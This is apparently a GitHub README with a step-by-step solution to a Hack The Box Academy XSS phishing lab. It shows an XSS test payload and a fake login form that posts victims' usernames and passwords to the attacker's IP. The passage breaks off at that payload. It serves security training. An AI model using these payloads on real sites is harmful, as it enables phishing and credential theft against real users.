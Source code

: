 # HTB Academy XSS Phishing Task Solution

This repository documents my solution to the Hack The Box (HTB) Academy Cross-Site Scripting (XSS) phishing task. The goal was to exploit an XSS vulnerability in an "Image URL" input field, inject a fake login form, capture victim credentials, and use them to obtain a flag.

- **Attacker IP (My Machine):** `10.10.14.179` (where credentials are sent)
- **Target IP (HTB Server):** `10.129.9.211` (hosts the vulnerable app)
- **Date Solved:** April 10, 2025

---

## Objective
Exploit the XSS vulnerability at `http://10.129.9.211/phishing/index.php?url=` to:
1. Inject a malicious login form.
2. Send the victim's credentials to my IP (`10.10.14.179`).
3. Use the captured credentials to log in at `http://10.129.9.211/phishing/login.php` and retrieve the flag.

---

## Step-by-Step Solution

### Step 1: Confirm XSS Vulnerability
1. **Access the Target Page:**
   - URL: `http://10.129.9.211/phishing/index.php`
   - Locate the "Image URL" input field.

2. **Test Input Reflection:**
   - Input: `test`
   - Submit and view source: `<img src='test'>`
   - Result: Input is reflected unsanitized into an `<img>` tag.

3. **Test XSS:**
   - Input: `'><script>alert(1);</script>`
   - URL: `http://10.129.9.211/phishing/index.php?url='><script>alert(1);</script>`
   - Result: Alert pops up with "1", confirming XSS vulnerability.

---

### Step 2: Craft the Malicious Payload
Inject a fake login form that submits credentials to `10.10.14.179`.

1. **Fake Login Form HTML:**
   ```html
   <h3>Please login to continue</h3><form action=http://10.10.14.179><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>
